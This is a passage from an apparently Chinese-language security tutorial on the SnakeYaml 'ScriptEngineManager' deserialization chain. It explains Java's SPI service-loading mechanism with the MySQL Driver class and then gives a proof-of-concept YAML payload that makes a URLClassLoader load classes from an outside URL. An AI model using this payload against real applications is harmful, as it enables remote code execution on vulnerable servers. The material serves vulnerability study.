 ### ScriptEngineManager 链

**什么是 SPI 机制**  
SPI(Service Provider Interface), JDK 内置的一种服务提供发现机制。它的利用方式是通过在 ClassPath 路径下的`META-INF/services`文件夹下查找文件，自动加载文件中所定义的类  
例如以 mysql-connector 包为例：  
[![](assets/1701612157-668ffa56b3c938fcfafec585bf009359.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230813204502-3879ac82-39d7-1.png)  
而 Dirver 类中的内容是：

```bash
package com.mysql.cj.jdbc;

import java.sql.DriverManager;
import java.sql.SQLException;

public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }

    static {
        try {
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

这个 Driver 类实现了 java.sql.Driver 接口，这段代码主要是将当前类的实例注册为 MySQL 数据库的驱动程序，实现了一个 MySQL 数据库的 Java 驱动程序，这个方法会在 JVM 启动时执行，从而确保了该驱动程序在应用程序启动时已经被注册。当应用程序需要连接 MySQL 数据库时，可以通过 DriverManager 类的 getConnection() 方法获取 com.mysql.cj.jdbc.Driver 类的实例，进而建立 MySQL 数据库连接  
**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
POC：

```bash
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tlk0u6qn.eyes.sh\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
